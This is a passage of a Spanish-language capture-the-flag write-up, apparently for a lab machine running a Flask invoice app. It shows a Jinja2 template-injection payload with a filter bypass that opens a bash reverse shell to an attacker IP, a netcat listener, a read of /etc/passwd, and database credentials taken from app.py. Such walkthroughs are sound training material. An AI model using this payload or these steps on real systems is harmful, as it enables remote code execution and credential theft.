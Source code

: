 En la respuesta copiamos todas las subclases (lo que hay entre corchetes dentro del src de la imagen) y las pegamos en un archivo llamado `subclasses.txt`.

Una vez hecho, ejecutamos el siguiente script para sacar la posición de `Popen` en la lista de subuclases.

```
echo $(($(cat subclasses.txt | tr -d '[]' | tr ',' "\n" | grep -n Popen | awk '{ print $1 }' | tr -d ':') - 1))

365
```

Ya que sabemos que su número es el `365`, podemos ejecutar comandos con `().__class__.__base__.__subclasses__().__getitem__(365)('COMANDO',shell=True,stdout=-1).communicate()`.

Vamos a comprobar que tenemos un RCE mandandonos una reverse shell `bash -c "bash -i >& /dev/tcp/10.10.14.124/1234 0>&1"`, esto con el bypass quedaría así.

```
invoice_id=&form_type=scannable_invoice&class=__class__&base=__base__&subclasses=__subclasses__&getitem=__getitem__&qr_link={{(()|attr(request.form.get('class'))|attr(request.form.get('base'))|attr(request.form.get('subclasses'))()|attr(request.form.get('getitem'))(365)('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.124/1234+0>%261"',shell=True,stdout=-1)).communicate()}}
```

Escuchamos con netcat para recibir la reverse shell por el puerto `1234`.

```
nc -lnvtp 1234
```

Una vez dentro miramos que usuarios hay con terminal en la máquina víctima con el siguiente comando.

```
cat /etc/passwd | grep -e "sh$"

root:x:0:0:root:/root:/bin/bash
consuela:x:1000:1000:consuela:/home/consuela:/bin/bash
```

Nos apuntamos el nombre de `consuela` por si nos sirve en el futuro.

Vemos que estamos en el directorio `/opt/app`, en el que encontramos un archivo `app.py`, vamos a examinarlo en busca de las credenciales de la base de datos.

```
cat app.py

...contenido del archivo...
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
...contenido del archivo...
```
